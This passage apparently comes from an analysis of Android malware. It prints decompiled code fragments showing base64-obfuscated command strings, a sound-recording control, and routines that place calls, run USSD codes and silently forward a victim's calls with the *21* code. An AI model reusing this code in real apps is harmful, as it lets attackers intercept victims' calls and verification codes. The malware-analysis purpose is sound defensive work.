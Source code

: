 ```cs
                            return;
                        }

                        izyiyumk.this.b.a(izyiyumk.this.a("ZGJmNzA5OGFmYQ=="), izyiyumk.this.a("ZGJlYzEzOTQ5ZTA0NDQxNjg2OWUzZjEzNmQwNjRlZTE5MQ=="));  // STOP RECORD SOUND
                                                                                                                                                      // SOUND

```


# Classic features

## Call and call forward

After granting all call permissions, the malware will have the ability to call or forward call. 

```cs
  try {
                Intent intent0 = new Intent("android.intent.action.CALL");
                intent0.addFlags(0x10000000);
                intent0.setData(Uri.parse("tel:" + Uri.encode(s26)));
                context1.startActivity(intent0);
                String s27 = "USSD: " + s26 + "[143523#]";
                i1.a("USSD", s27);
                i1.f(context1, i1.a.ab, s27);
                return;
            }
            catch(Exception unused_ex) {
            }

            try {
                i1.a("USSD", "Error: Start USSD");
                i1.a("USSD", "Error USSD[143523#]");
                i1.f(context1, i1.a.ab, "Error USSD[143523#]");
                return;
            label_1329:
                i2 = jwozx0.a;
                s28 = jSONObject5.getString(jwozx0.a("ZTY="));  // n
            }
            catch(Exception unused_ex) {
                return;
            }

            try {
                Intent intent1 = new Intent("android.intent.action.CALL");
                intent1.addFlags(0x10000000);
                intent1.setData(Uri.fromParts("tel", "*21*" + s28 + "#", "#"));
                context1.startActivity(intent1);
                String s29 = "ForwardCALL: " + s28 + "[143523#]";
                i2.a("ForwardCall", s29);
                i2.f(context1, i2.a.ab, s29);
                return;
            }
            catch(Exception unused_ex) {
            }
```

